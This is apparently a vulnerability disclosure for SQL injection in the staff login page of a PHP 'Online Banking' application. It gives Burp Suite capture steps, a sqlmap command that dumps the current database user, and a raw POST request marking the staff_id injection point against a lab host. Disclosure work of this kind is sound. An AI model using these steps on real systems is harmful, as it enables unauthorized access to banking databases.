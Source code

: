 # Online Banking SQL Injection
* `Description` => sql injection at `staff_login.php`
# Step to Reproduct
* `Staff Login` -> `Staff ID ` -> `Staff Password` -> `Login` -> `modify data` -> `Sqlmap`
# Exploit
* Input `Staff ID` and `Staff Password` -> `Login` 
![image](https://user-images.githubusercontent.com/79050415/159326849-427a43be-5e88-4535-ba60-7d41fe0906f1.png)
* Use Burp Suite capture request 
![image](https://user-images.githubusercontent.com/79050415/159327710-183afd91-1624-4733-88a7-491cca62fa8f.png)
* Then modify the data and save as `sqli.txt`
![image](https://user-images.githubusercontent.com/79050415/159327862-825f0250-9143-46ed-a5cb-c36d5ee29b3d.png)
* Scan `sqli.txt` on `Sqlmap`
```c
python3 sqlmap.py -r sqli.txt --batch --current-user
```
![image](https://user-images.githubusercontent.com/79050415/159328722-52415c05-ed4a-405b-ae9f-919692f58601.png)

# Vulnerable Code
![image](https://user-images.githubusercontent.com/79050415/159329104-f6734379-6e0f-4344-a7a9-d4baa41d2e34.png)
* No filter when inserting data to database
# Information Disclosure
![image](https://user-images.githubusercontent.com/79050415/159336479-fa3c68de-4a04-47a0-ac87-d78dd136e377.png)

# POC
`Injection Point`
```c
staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
* `Request`
```c
POST /Online-Banking/staff_login.php HTTP/1.1
Host: 192.168.1.101:8080
Content-Length: 57
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.101:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.101:8080/Online-Banking/staff_login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=jpkpok9b1tiholm7srir1b6mev
Connection: close

staff_id=*&password=hhhhhhhhhh&staff_login-btn=LOGIN
```
